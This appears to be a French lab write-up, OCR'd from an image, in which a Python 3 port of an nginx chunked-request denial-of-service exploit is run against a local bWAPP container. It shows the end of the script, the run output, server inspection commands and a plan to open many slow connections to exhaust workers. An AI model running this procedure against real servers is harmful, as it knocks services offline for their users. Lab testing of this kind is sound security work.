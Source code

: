     try:
        resp = conn.getresponse()
        print(resp.status, resp.reason)
    except Exception:
        print(f"[*] Knock knock, is anybody there ? ({packet}/66)")

    packet += 1
    conn.close()

print("[+] Done!")
PY
chmod +x /tmp/nginx_dos_py3_converted.py

##### 2) Exécution
python3 /tmp/nginx_dos_py3_converted.py 127.0.0.1:8081 2>&1 | tee /tmp/nginx_dos_py3_run.log

##### 3) Résultats clés
[*] Knock knock, is anybody there ? (0/66)
[…]
[*] Knock knock, is anybody there ? (66/66)
→ **Aucune réponse HTTP** ; requêtes chunked **mises en attente/ignorées**. Ça indique un comportement potentiellement vulnérable mais non concluant. On vérifie l'impact sur le serveur avant d'aller plus loin.

##### 4) Inspection service et charge
1. Connexions vers le port web
sudo ss -tanp | grep ':8081'

2. Sockets et processus associés
sudo lsof -nP -iTCP:808

3. Charge CPU / mémoire (snapshot)
top -b -n1 | head -20

4. Afficher uniquement le conteneur bwapp
docker stats --no-stream bwapp

5. Nombre de fichiers ouverts par docker-proxy (adapter PID si besoin)
sudo ls -l /proc/$(pgrep -f docker-proxy | head -1)/fd | wc -l

6. Logs Apache dans le conteneur (si présents)
docker exec -it bwapp bash -c "tail -n 120 /var/log/apache2/error.log 2>/dev/null || tail -n 120 /app/logs/* 2>/dev/null || true"

7. Test de service
curl -I http://127.0.0.1:8081/portal.php

##### 5) Résumé des observations
- **LISTEN** actif sur 0.0.0.0:8081 via **docker-proxy**.
- **Apache 2.4.7/PHP 5.5.9** opérationnel ; redirections **302 → login.php**.
- **Pas d’erreur HTTP**, pas d’interruption de service.

##### 6) Test de charge contrôlé (slow chunk)
Un seul envoi peut être ignoré. Il faut ouvrir plusieurs connexions lentes simultanées pour vérifier si le serveur épuise les workers/descripteurs.
